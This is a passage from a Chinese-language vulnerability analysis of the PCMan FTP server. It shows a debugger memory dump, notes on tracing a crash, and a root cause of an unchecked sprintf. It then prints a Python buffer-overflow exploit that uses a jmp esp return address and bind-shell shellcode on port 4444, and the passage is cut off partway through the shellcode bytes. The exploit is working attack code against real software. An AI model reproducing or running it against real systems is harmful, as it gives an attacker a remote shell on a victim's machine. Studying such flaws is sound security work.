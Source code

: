     0012ede4  004e035c 0012f2bc 74db0de8 74debd1b  \.N........t...t
    0012edf4  004e035c 0012ef34 004e035c b50106a6  \.N.4...\.N.....
    0012ee04  004e035c 10008002 004e035c 004e035c  \.N.....\.N.\.N.
    0012ee14  0012ef64 ffffffff 00000004 0012f040  d...........@...
    0012ee24  77d2c3ff b50106a6 00000000 73fd5715  ...w.........W.s
    0012ee34  b50106a6 73ff04f0 00000004 00000000  .......s........

第二次是接收我们含有畸形参数的命令  
那我们从第二次开始单步跟踪  
跟踪到`00402a26 e835140000 call PCManFTPD2+0x3e60 (00403e60)`崩溃了

那我们在这个函数下断点继续跟踪（可以在recv第二次断下来，再下断00403e60）

跟着我们在这个函数的ret指令之后崩了，  
再看看ida就可以定位漏洞了

## 漏洞总结

利用了3种方式去分析漏洞，成功了两种，还可以  
漏洞原理就是使用sprintf格式化的时候没有对字符串长度进行限制检查

## 漏洞利用

常用的覆盖jmp esp，后面跟shellcode就好了  
**exp:**  
`(jmp esp在你的机子应该要改一下)`

    
    
    import socket as s
    from sys import argv
    #
    if(len(argv) != 4):
        print "USAGE: %s host <user> <password>" % argv[0]
        exit(1)
    else:
        #store command line arguments
        script,host,fuser,fpass=argv
        #vars
        junk = '\x41' * 2004 #overwrite function (ABOR) with garbage/junk chars
        espaddress = '\xd8\xfc\x93\x7c' # 0x7c93fcd8
        nops = '\x90' * 10
        shellcode = ( # BIND SHELL | PORT 4444
            "\x31\xc9\xdb\xcd\xbb\xb3\x93\x96\x9d\xb1\x56\xd9\x74\x24\xf4"
            "\x5a\x31\x5a\x17\x83\xea\xfc\x03\x5a\x13\x51\x66\x6a\x75\x1c"
            "\x89\x93\x86\x7e\x03\x76\xb7\xac\x77\xf2\xea\x60\xf3\x56\x07"
            "\x0b\x51\x43\x9c\x79\x7e\x64\x15\x37\x58\x4b\xa6\xf6\x64\x07"
            "\x64\x99\x18\x5a\xb9\x79\x20\x95\xcc\x78\x65\xc8\x3f\x28\x3e"
            "\x86\x92\xdc\x4b\xda\x2e\xdd\x9b\x50\x0e\xa5\x9e\xa7\xfb\x1f"
            "\xa0\xf7\x54\x14\xea\xef\xdf\x72\xcb\x0e\x33\x61\x37\x58\x38"
            "\x51\xc3\x5b\xe8\xa8\x2c\x6a\xd4\x66\x13\x42\xd9\x77\x53\x65"
            "\x02\x02\xaf\x95\xbf\x14\x74\xe7\x1b\x91\x69\x4f\xef\x01\x4a"
            "\x71\x3c\xd7\x19\x7d\x89\x9c\x46\x62\x0c\x71\xfd\x9e\x85\x74"
            "\xd2\x16\xdd\x52\xf6\x73\x85\xfb\xaf\xd9\x68\x04\xaf\x86\xd5"
            "\xa0\xbb\x25\x01\xd2\xe1\x21\xe6\xe8\x19\xb2\x60\x7b\x69\x80"
            "\x2f\xd7\xe5\xa8\xb8\xf1\xf2\xcf\x92\x45\x6c\x2e\x1d\xb5\xa4"
            "\xf5\x49\xe5\xde\xdc\xf1\x6e\x1f\xe0\x27\x20\x4f\x4e\x98\x80"
            "\x3f\x2e\x48\x68\x2a\xa1\xb7\x88\x55\x6b\xce\x8f\x9b\x4f\x82"
            "\x67\xde\x6f\x34\x2b\x57\x89\x5c\xc3\x31\x01\xc9\x21\x66\x9a"
            "\x6e\x5a\x4c\xb6\x27\xcc\xd8\xd0\xf0\xf3\xd8\xf6\x52\x58\x70"
            "\x91\x20\xb2\x45\x80\x36\x9f\xed\xcb\x0e\x77\x67\xa2\xdd\xe6"
            "\x78\xef\xb6\x8b\xeb\x74\x47\xc2\x17\x23\x10\x83\xe6\x3a\xf4"
            "\x39\x50\x95\xeb\xc0\x04\xde\xa8\x1e\xf5\xe1\x31\xd3\x41\xc6"
            "\x21\x2d\x49\x42\x16\xe1\x1c\x1c\xc0\x47\xf7\xee\xba\x11\xa4"
            "\xb8\x2a\xe4\x86\x7a\x2d\xe9\xc2\x0c\xd1\x5b\xbb\x48\xed\x53"
            "\x2b\x5d\x96\x8e\xcb\xa2\x4d\x0b\xfb\xe8\xcc\x3d\x94\xb4\x84"